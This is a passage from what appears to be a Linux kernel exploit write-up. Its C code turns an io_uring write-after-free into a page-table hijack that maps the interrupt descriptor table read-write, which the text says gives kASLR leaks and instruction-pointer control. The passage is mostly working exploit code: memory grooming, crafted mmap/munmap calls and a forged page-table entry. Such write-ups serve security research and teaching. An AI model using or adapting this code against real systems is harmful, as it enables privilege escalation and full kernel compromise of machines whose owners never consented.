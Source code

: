 ```c
	// free PMD to hijack
	munmap(IDT  +  OFFSETOF_IO_URING_SQE_UD  /  8  *  PAGE_SIZE, PAGE_SIZE);

	return  zero_pfn;
}
```

# IOP

From this point we could do a common dirty pagetable and map coredump, but I'd rather show IOP.
We will use the write-after-free to map the IDT as rw, giving us kASLR leaks and RIP hijacking, from there we can build a IOPchain.

```c
void  map_idt(ul  zero_pfn){
	// allocate physical contiguous pages for submission and completion queues
	ul  sq  =  feng_shui(SQ_ADDR, SQ_PAGES);
	ul  cq  =  feng_shui(CQ_ADDR, CQ_PAGES);

	// free boffed unmoveable page + remap address not to make pin_user_pages_fast fail
	munmap(cq+PAGE_SIZE, PAGE_SIZE);
	mmap(cq+PAGE_SIZE, PAGE_SIZE, PROT_ALL, MAP_FIXED  |  MAP_PRIVATE  |  MAP_ANONYMOUS  |  MAP_POPULATE, -1, 0);

	// allocate PMD to hijack
	idt  =  mmap(IDT, PAGE_SIZE, PROT_READ  |  PROT_WRITE,
									MAP_FIXED  |  MAP_PRIVATE  |  MAP_ANONYMOUS  |  MAP_POPULATE, -1, 0);

	// *&rings->sq.tail = ctx->sq_entries
	*(volatile  unsigned  int  *)(cq  +  4) =  SQ_ENTRIES;

	struct  io_uring_params  params2  = {
		.flags  =  IORING_SETUP_NO_MMAP  |  IORING_SETUP_NO_SQARRAY,
		.sq_off  = {.user_addr  =  sq},
		.cq_off  = {.user_addr  =  cq}};
	int  uring_fd  =  syscall(__NR_io_uring_setup, SQ_ENTRIES, &params2);

	// consume first cq page
	memset(sq, 0, SQ_SIZE);
	int  sqe;
	for (sqe=0; sqe<(PAGE_SIZE-OFFSETOF_IO_RINGS_CQES) /  sizeof(struct  io_uring_cqe); sqe++)
		syscall(__NR_io_uring_enter, uring_fd, 1, 0, 0, 0);

	// write on PMD
	((struct  io_uring_sqe*) sq)[sqe].user_data  =
									zero_pfn+0x1000  |  0x8000000000000067; // + 0x1000: IDT is mapped right after zero_pfn

	// 0x8000000000000067: pte flags: NX | DIRTY | ACCESSED | W | U | P
	syscall(__NR_io_uring_enter, uring_fd, 1, 0, 0, 0);
}
```
